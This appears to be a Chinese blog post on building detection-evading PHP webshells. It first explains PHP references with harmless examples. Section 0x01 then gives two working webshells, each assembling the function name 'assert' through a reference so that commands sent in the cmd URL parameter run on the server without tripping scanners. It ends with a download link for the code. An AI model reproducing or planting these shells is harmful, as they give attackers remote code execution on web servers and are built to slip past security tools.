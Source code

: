 ```yaml
---
layout:     post
title:      &引用免杀webshell
date:       2017-04-25
summary:    &引用免杀webshell
categories: web
tags:
 - php
 - 引用
 - 免杀
---
```


### 0x00 php中的&

```
1.函数的参数引用
<?php
function test(&$a){ 
    $a=$a+100; 
    } 
    $b=1; 
    echo $b;//输出１ 
    test($b);   //这里$b传递给函数的其实是$b的变量内容所处的内存地址,通过在函数里改变$a的值就可以改变$b的值了 
    echo "<br>"; 
    echo $b;//输出101
?>

2.函数的返回引用
<?php
function &test()
{ 
    static $b=0;//申明一个静态变量 
    $b=$b+1; 
    echo $b; 
    return $b; 
}

$a=test();//这条语句会输出$b的值为１ 
$a=5; 
$a=test();//这条语句会输出$b的值为2
$a=&test();//这条语句会输出$b的值为3,这句相当于$a=&$b;
$a=5; 
$a=test();//这条语句会输出$b的值为6
?>

理解参考:
http://www.cnblogs.com/thinksasa/p/3334492.html
```

### 0x01 Detail

#### a)利用函数的参数引用免杀

```
<?php
function foo(&$var)
{
    $var=$var.'t';
}
$a="asser";
foo($a);
$a($_GET[cmd]);
```

#### b)利用函数的返回引用免杀

```
<?php
class talker{
    public $data = 'Hi';
    public function & get(){
        return $this->data;
    }
}

$aa = new talker();
$d = &$aa->get();
$d = $_GET[cmd];

function foo(&$var)
{
    $var=$var.'t';
}
$a="asser";
foo($a);
$a($aa->data);

```

本文代码下载<br>
<a href="https://github.com/3xp10it/xwebshell/tree/master/php/%26">download</a>
